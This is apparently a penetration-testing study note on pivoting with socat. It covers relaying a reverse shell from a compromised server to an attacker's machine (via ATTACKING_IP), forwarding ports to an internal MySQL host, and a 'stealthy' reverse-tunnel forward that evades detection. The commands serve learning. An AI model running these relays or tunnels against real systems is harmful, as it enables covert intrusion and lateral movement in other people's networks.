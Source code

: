 ## Reverse Shell Relay

![[Rev_port_relay.png]]

In this scenario we are using socat to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above). First let's start a standard netcat listener on our attacking box
- `sudo nc -lvnp 443`( Attacker machine)
- `./socat tcp-l:8000 tcp:ATTACKING\_IP:443 &` (Victim machine outside facing)

From here we can then create a reverse shell to the newly opened port 8000 on the compromised server.

![[2021-03-20_12-03.png]]

A brief explanation of the above command:

-   `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
-   `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING\_IP obviously needs to be filled in correctly for this to work.
-   `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

## Port Forwarding - Easy

`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`


- This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10. 
- The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one connection.
- Once again we use `&` to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.
- We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.

## Port Forwarding - Stealthy

*Previous technique had a port open on victim machine which can be detected easily*
- First of all, on our own attacking machine, we issue the following command:
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.

- Next, on the compromised (outward facing server) relay server we execute this command:
`./socat tcp:ATTACKING\_IP:8001 tcp:TARGET\_IP:TARGET\_PORT,fork &`
This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server

*Recap*
-   The request goes to `127.0.0.1:8000`
-   Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
-   Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

